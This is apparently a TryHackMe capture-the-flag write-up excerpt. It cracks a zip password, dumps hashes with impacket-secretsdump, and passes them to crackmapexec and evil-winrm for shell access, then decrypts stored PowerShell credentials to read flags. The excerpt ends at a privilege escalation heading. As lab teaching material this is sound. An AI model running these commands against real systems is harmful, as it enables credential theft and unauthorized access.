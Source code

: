 Files mentioned are probably in zip, we need to extract given zip and run impacket-secretsdump on those files.

![chat_log](chat_log.png)

**_Q3 What is the zip file's password?_**
Theres password on that zip. We can use following command to get hash to be cracked 

```console
zip2john experiment_gone_wrong.zip > hash
``` 


Run `impacket-secretsdump` on extracted files to get hashes. But firstly we need to clean this file to have only hashes

```console
cut -d ':' -f 4 hashes > secretsdump-hashes
```


**_Q4 What is Ljudmila's Hash?_**

Now bruteforce hashes on `lvetrova` using crackmapexec

```console
crackmapexec smb $ip -u lvetrova -H secretsdump-hashes.txt
```

**_Q5 What is Ljudmila's Flag?_** 

If you did everything right you should get lvetrova's hash and now we be able to access shell through winrm.

```console
evil-winrm -i $ip -u lvetrova -H [REDACTED]
```

![lvetrova-flag](lvetrova-flag.png)

Decrypt password using following command:

```console
*Evil-WinRM* PS C:\Users\lvetrova> $flag = Import-Clixml -Path lvetrova.xml
*Evil-WinRM* PS C:\Users\lvetrova> $flag.GetNetworkCredential().password
THM{69[REDACTED]e4}
```

Now let's login as `xyan1d3` using evil-winrm

**_Q7 What is Xyan1d3's Flag?_**

Decrypting using same commands as above

```console
*Evil-WinRM* PS C:\Users\xyan1d3> $flag = Import-Clixml -Path xyan1d3.xml
*Evil-WinRM* PS C:\Users\xyan1d3> $flag.GetNetworkCredential().password
LOL here it is -> THM{62[REDACTED]bb}
```

## Privilege Escalation
